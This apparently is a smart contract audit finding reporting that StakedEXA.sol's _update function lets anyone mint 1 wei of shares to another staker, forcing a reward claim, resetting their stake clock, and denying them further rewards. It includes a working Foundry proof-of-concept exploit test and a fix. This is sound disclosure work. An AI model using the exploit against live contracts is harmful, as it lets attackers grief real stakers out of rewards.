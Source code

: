 Odd Opaque Fox

Medium

# Unauthorized Impromptu Reward Withdrawal and Denial of Service caused by `_update` Function

## Summary

The `_update` function within `StakedEXA.sol` has a flaw that allows a random user to trigger an impromptu withdrawal of rewards for another user who has staked before and whose stake time is greater than the reference time. This can be done by simply minting 1 wei of shares to the other user, causing all accrued rewards to be claimed and the average start time to be reset. As a result, the affected user will be unable to claim further rewards for that stake.

## Vulnerability Detail

The `_update` function checks if the `from` address is zero, which indicates a mint operation. If the `to` address has staked before and the elapsed time since the average start time is greater than the reference time, the function claims all accrued rewards for the `to` address and resets the average start time. A random user can exploit this by minting 1 wei of shares to the `to` address, triggering an impromptu `Claimwithdraw()` and preventing the `to` address from claiming further rewards.

> [!NOTE]
Dividend module: Users who stake their EXA tokens will receive dividends based on the staking duration. The dividend index updates regularly, ensuring that participants who stake for longer periods receive proportional rewards. This module supports multiple assets, although a single-asset approach can simplify the dividend distribution

## Impact

A malicious user can prevent another user from claiming further rewards . This can disrupt the expected behavior of the staking mechanism and result in a denial of service for the affected user.
[\_update](https://github.com/sherlock-audit/2024-07-exactly-stacking-contracts/blob/main/protocol/contracts/StakedEXA.sol#L131-L151)

## Code Snippet

```solidity
    if (from == address(0)) {
      uint256 start = avgStart[to];
      uint256 time = start != 0 ? block.timestamp * 1e18 - start : 0; // @audit if the user(to) has staked before it returns the time difference..Average
      uint256 memRefTime = refTime * 1e18;
      uint256 balance = balanceOf(to); // @audit assume to is an existing user with stake
      uint256 total = amount + balance;

      for (uint256 i = 0; i < rewardsTokens.length; ++i) {
        IERC20 reward = rewardsTokens[i];
        updateIndex(reward);

        if (time > memRefTime) { // assuming this passes
          // there should be a check here to confirm that msg.sender is == to in this case before withdrawing.
          if (balance != 0) claimWithdraw(reward, to, balance); // @audit can withdraw impromptu for someone who staked before..
          avgIndexes[to][reward] = rewards[reward].index;
        }
}
```

` if (time > memRefTime) avgStart[to] = block.timestamp * 1e18;`

## Proof of Concept

```solidity
  function test_Malicious_Trigger_WithdrawWithRewards_DOS(uint256 assets) external {
    assets = _bound(assets, 500, type(uint80).max);

    // first user makes his stake
    exa.mint(address(this), assets);
    stEXA.deposit(assets, address(this));

    // store average start time at deposit
    uint firstAvgStart = stEXA.avgStart(address(this));

    // assume time has exceeded minimum stake duration for first user
    vm.warp(block.timestamp + duration + 30 days);

    // Malicious user now mints 1 shares to first user to trigger claimWithdraw and reset AvgStake time
    vm.startPrank(address(333));
    exa.mint(address(333), 333);
    exa.approve(address(stEXA), type(uint256).max);
    stEXA.mint( 1 wei, address(this));
    // all rewards would have been claimed for the first user.
    vm.stopPrank();

    // store average start time after malicious trigger of claimWithdraw
    uint secondAvgStart = stEXA.avgStart(address(this));

    // assert that secondAvgStart > firstAvgStart
    assertGt(secondAvgStart, firstAvgStart);

    // first user is forced to withdraw stake cause no further rewards can be gotten on the stake
    vm.warp(block.timestamp + duration + 30 days * 30 days); // <--- assuming first user leaves stake for longer period and withdraws he still gets 0 rewards.
    stEXA.withdraw(assets, address(this), address(this));
  }
```

Add this test to the `StakedEXA.t.sol` file and run the following command:

```sh
forge t --mc StakedEXATest --mt test_Malicious_Trigger_WithdrawWithRewards_DOS -vvvvv
```

## Tool Used

Manual Review

## Recommendation

Add a check to confirm that `msg.sender` is equal to `to` before allowing a withdrawal:

```solidity
if (time > memRefTime) {
    if (balance != 0 && msg.sender == to)
    { claimWithdraw(reward, to, balance);
    avgIndexes[to][reward] = rewards[reward].index;
    }
}
```
